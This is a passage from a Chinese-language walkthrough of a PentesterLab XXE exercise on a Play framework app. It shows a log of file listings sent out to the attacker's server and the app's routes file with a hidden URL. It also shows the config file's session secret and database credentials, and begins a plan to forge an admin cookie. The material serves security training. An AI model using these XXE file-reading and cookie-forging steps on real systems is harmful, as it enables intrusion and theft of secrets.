 通常，java框架会有路由配置url映射，那么可以访问`/opt/play-2.1.3/xxe/conf/`目录(采用和上面相同的方式)，得到如下内容:

```
10.211.55.14 - - [21/Apr/2017 12:56:38] "GET /BLAH?application.conf%0Aevolutions%0Aroutes%0A HTTP/1.1" 404 -

# url decode
application.conf
evolutions
routes
```

在访问`routes`,有如下内容

```
GET     /                           controllers.Application.index()
GET     /0ecf87346b9c0b370f8d63e6e7fed4f0             controllers.Application.secret_url()
GET       /login                   controllers.Application.login
POST      /login                   controllers.Application.login
GET       /logout                  controllers.Application.logout

GET     /assets/*file               controllers.Assets.at(path="/public", file)
```

得到secret_url为:`0ecf87346b9c0b370f8d63e6e7fed4f0`, 访问。

{% asset_img secret.png %}

### 伪造cookie

要实现admin用户登录，要么获取密码或登录绕过，要么利用cookie伪造登录，这里仅探讨伪造cookie登录。要实现cookie的伪造，那么需要知道目标服务器设置session的加密方式，访问`/opt/play-2.1.3/xxe/conf/application.conf`文件，得到application.secret=`"X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"`.

```
application.secret="X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
application.langs="en"
db.default.driver=com.mysql.jdbc.Driver
db.default.url="mysql://pentesterlab:pentesterlab@localhost/xxe"
ebean.default="models.*"
logger.root=ERROR
logger.play=INFO
logger.application=DEBUG
```

session的管理在`app/controllers/Application.java`中（或者.scala）, 核心代码如下:

```
User user = User.findByUsername(username);
if (user!=null) {
    if (user.password.equals(md5(username+":"+password) )) {
      session("user",username);
      return redirect("/");
```

显然，我们要利用`user=admin`来伪造session.
